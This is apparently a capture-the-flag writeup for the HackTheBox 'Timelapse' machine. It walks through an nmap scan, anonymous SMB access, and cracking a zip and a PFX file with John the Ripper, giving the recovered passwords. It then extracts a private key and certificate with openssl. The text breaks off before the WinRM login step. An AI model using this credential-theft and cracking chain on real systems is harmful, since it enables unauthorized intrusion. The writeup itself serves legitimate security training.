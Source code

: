 # Timelapse---HackTheBox-Writeup
A guide for the [Timelapse Challenge in HackTheBox](https://app.hackthebox.com/machines/Timelapse)


1. Run [Nmap](https://nmap.org/) ``` sudo nmap -sV -O -Pn -v 10.10.11.152 ```<br>

> <ul>
>    <li>-sV: Probe open ports to determine service/version info</li>
>    <li>-O: Enable OS detection</li>
>    <li>-Pn: Treat all hosts as online -- skip host discovery</li>
>    <li>-v: Increase verbosity level (use -vv or more for greater effect)</li>
> </ul>

  In which we are able to find out that it has:
 - 2 ports running Samba Servers(139 and 445)

```
elrond@kali  ~  sudo nmap -sV -O -Pn -v 10.10.11.152 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-31 00:52 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 00:52
Completed Parallel DNS resolution of 1 host. at 00:52, 0.02s elapsed
Initiating SYN Stealth Scan at 00:52
Scanning 10.10.11.152 [1000 ports]
Discovered open port 139/tcp on 10.10.11.152
Discovered open port 135/tcp on 10.10.11.152
Discovered open port 445/tcp on 10.10.11.152
Discovered open port 53/tcp on 10.10.11.152
Discovered open port 593/tcp on 10.10.11.152
Discovered open port 636/tcp on 10.10.11.152
Discovered open port 464/tcp on 10.10.11.152
Discovered open port 88/tcp on 10.10.11.152
Discovered open port 389/tcp on 10.10.11.152
Completed SYN Stealth Scan at 00:52, 6.49s elapsed (1000 total ports)
Initiating Service scan at 00:52
Scanning 9 services on 10.10.11.152
Completed Service scan at 00:52, 16.16s elapsed (9 services on 1 host)
Initiating OS detection (try #1) against 10.10.11.152
Retrying OS detection (try #2) against 10.10.11.152
NSE: Script scanning 10.10.11.152.
Initiating NSE at 00:52
Completed NSE at 00:52, 0.22s elapsed
Initiating NSE at 00:52
Completed NSE at 00:52, 0.17s elapsed
Nmap scan report for 10.10.11.152
Host is up (0.089s latency).
Not shown: 991 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-03-31 12:52:28Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.69 seconds
           Raw packets sent: 2067 (94.656KB) | Rcvd: 29 (1.848KB)
```

2. Exploiting the [Samba Server](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)<br>
  <ul><li>Try to connect and list down the shares in the smbclient

> <ul>
>    <li>-N|--no-pass:no password</li>
>    <li>-L|--list:HOST</li>
> </ul>

```
 elrond@kali  ~  smbclient -N -L \\\\10.10.11.152\\
```
```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
</li>
  <li> Now that we know some sharenames on the target, let's try connnecting to them and see what files we can find
  
  ```
      elrond@kali  ~/Downloads/HackTheBox  smbclient -N \\\\10.10.11.152\\Shares\\
  ```
  ```
      Try "help" to get a list of possible commands.
      smb: \> dir
        .                                   D        0  Mon Oct 25 11:39:15 2021
        ..                                  D        0  Mon Oct 25 11:39:15 2021
        Dev                                 D        0  Mon Oct 25 15:40:06 2021
        HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

                      6367231 blocks of size 4096. 1167073 blocks available
      smb: \> cd Dev
      smb: \Dev\> dir
        .                                   D        0  Mon Oct 25 15:40:06 2021
        ..                                  D        0  Mon Oct 25 15:40:06 2021
        winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

                      6367231 blocks of size 4096. 1167025 blocks available
      smb: \Dev\> get winrm_backup.zip
      getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (4.2 KiloBytes/sec) (average 4.2 KiloBytes/sec)
  ```
    
  </li>
  <li>
    And after manually extracting it, we discover that it is a password protected filein which we know need to give this file to John The Ripper via zip2john

```
elrond@kali  ~/Downloads/HackTheBox/Timelapse  zip2john winrm_backup.zip > timelapse.txt
    
Created directory: /home/elrond/.john
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```


```
elrond@kali  ~/Downloads/HackTheBox/Timelapse  john timelapse.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2022-03-31 02:08) 4.166g/s 14472Kp/s 14472Kc/s 14472KC/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
  </li>
  </ul>


4. Decrypting The file<br>
   Now that we have Figured out the password which is *supremelegacy* we can now unzip the file, showing a PFX file ```legacyy_dev_auth.pfx``` 
  which contains the SSL certificate (public keys) and the corresponding private keys of who we presume is a *Developer(Dev)* with the username *legacyy*.
  However accessing the file would need us to provide another password to access it, hence we must send it again to *John The Ripper* via pfx2john
  ```
  elrond@kali  ~/Downloads/HackTheBox/Timelapse  pfx2john legacyy_dev_auth.pfx > keys.txt                 
  ```
  ```
  elrond@kali  ~/Downloads/HackTheBox/Timelapse  ls                                      
  keys.txt  legacyy_dev_auth.pfx  timelapse.txt  winrm_backup.zip
  ```
  ```
  elrond@kali  ~/Downloads/HackTheBox/Timelapse  john keys.txt --wordlist=/usr/share/wordlists/rockyou.txt
  Using default input encoding: UTF-8
  Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
  Cost 1 (iteration count) is 2000 for all loaded hashes
  Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
  Will run 4 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  thuglegacy       (legacyy_dev_auth.pfx)     
  1g 0:00:01:31 DONE (2022-03-31 02:44) 0.01098g/s 35484p/s 35484c/s 35484C/s thuglife06..thug211
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed. 
  ```
  here we figure out that the password is *thuglegacy*, and we can now access the file. but what now? utlizing a search engine we discover what we can extract from it. 
  ![timelapse2](https://user-images.githubusercontent.com/101177396/161009781-0923574b-279b-46bc-bbaa-4ee062230147.PNG)
  Luckily it also shows how to extract it
  
  

  ```
  elrond@kali  ~/Downloads/HackTheBox/Timelapse  openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key    
  Enter Import Password:
  Enter PEM pass phrase:
  Verifying - Enter PEM pass phrase:
   elrond@kali  ~/Downloads/HackTheBox/Timelapse  ls
  keys.txt  legacyy_dev_auth.pfx  prv.key  timelapse.txt  winrm_backup.zip
   elrond@kali  ~/Downloads/HackTheBox/Timelapse  openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt 
  Enter Import Password:
   elrond@kali  ~/Downloads/HackTheBox/Timelapse  ls  
  cert.crt  keys.txt  legacyy_dev_auth.pfx  prv.key  timelapse.txt  winrm_backup.zip

  ```
  Since the we're trying top execute a file with another file on a separate folder(and we might do so again in the future),
  we're going to create an alias for it in our shell(bash/zsh/fsh depends on your default shell)
  ```alias evil-winrm="ruby ~/Documents/github \directories/evil-winrm/evil-winrm.rb"```
  
5. 
